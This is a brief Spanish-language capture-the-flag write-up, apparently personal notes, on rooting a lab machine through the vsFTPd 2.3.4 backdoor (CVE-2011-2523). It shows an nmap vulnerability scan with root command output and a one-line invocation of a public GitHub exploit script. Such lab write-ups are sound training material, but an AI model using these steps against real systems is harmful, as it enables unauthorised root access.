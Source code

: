 # Herramientas
- Nmap
- Python3
# Procedimientos
Lo primero, como siempre, es realizar el escaneo con nmap. En este caso ocupamos el comando `nmap -p- --script=vuln 172.17.0.2` y podemos ver que existe una vulnerabilidad en el servicio de ftp donde se pude colocar un backdoor.

```
Nmap scan report for 172.17.0.2  
Host is up (0.0000070s latency).  
Not shown: 65533 closed tcp ports (reset)  
PORT   STATE SERVICE  
21/tcp open  ftp  
| ftp-vsftpd-backdoor:    
|   VULNERABLE:  
|   vsFTPd version 2.3.4 backdoor  
|     State: VULNERABLE (Exploitable)  
|     IDs:  BID:48539  CVE:CVE-2011-2523  
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.  
|     Disclosure date: 2011-07-03  
|     Exploit results:  
|       Shell command: id  
|       Results: uid=0(root) gid=0(root) groups=0(root)  
|     References:  
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html  
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523  
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb  
|_      https://www.securityfocus.com/bid/48539  
80/tcp open  http  
|_http-csrf: Couldn't find any CSRF vulnerabilities.  
|_http-dombased-xss: Couldn't find any DOM based XSS.  
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.  
MAC Address: 02:42:AC:11:00:02 (Unknown)  
  
Nmap done: 1 IP address (1 host up) scanned in 58.40 seconds
```

Buscamos en google un exploit para esta versión y especificamos que esté en github (ocupamos el mismo exploit que para la máquina [[Resolución firsthacking]]). 

Usamos el script `python3 exploit.py 172.17.0.2` (ya habiendo activado el entorno virtual), y comprobamos que somos root con el comando `whoami`.

![[Pasted image 20250715172404.png]]

Es decir, hemos completado esta máquina de forma rápida :)